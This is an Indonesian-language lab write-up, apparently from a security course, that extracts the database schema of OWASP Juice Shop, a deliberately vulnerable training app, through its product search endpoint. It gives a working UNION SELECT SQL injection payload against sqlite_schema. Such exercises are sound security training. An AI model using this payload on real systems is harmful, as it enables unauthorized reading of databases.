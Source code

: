 # Injection - Soal 4 (Database Schema)

## 1. Soal
Ekstrak **database schema** dari aplikasi Juice Shop melalui SQL Injection.  
Targetnya adalah menemukan struktur tabel dan kolom yang ada di database.

---

## 2. Link Resource
- [OWASP Juice Shop](https://owasp-juice.shop)  
- [SQL Injection UNION attacks - PortSwigger](https://portswigger.net/web-security/sql-injection/union-attacks)  
- [SQLite Schema documentation](https://www.sqlite.org/schematab.html)  

---

## 3. Jawaban

### Step 1 – Identifikasi Endpoint Rentan
Pertama, dicoba fitur **pencarian produk** di Juice Shop.  
Endpoint yang digunakan adalah:
http://127.0.0.1:3000/rest/products/search?q=payload


Parameter `q` terbukti rentan terhadap SQL Injection.  



---

### Step 2 – Coba Payload UNION SELECT
Setelah dicoba beberapa kali untuk menyesuaikan jumlah kolom, payload final yang berhasil adalah:
```sql
test')) UNION SELECT 1,2,3,4,5,6,7,8,sql FROM sqlite_schema--
```
<img width="939" height="511" alt="image" src="https://github.com/user-attachments/assets/9d1f611f-9b40-47ae-903b-67c678440853" />
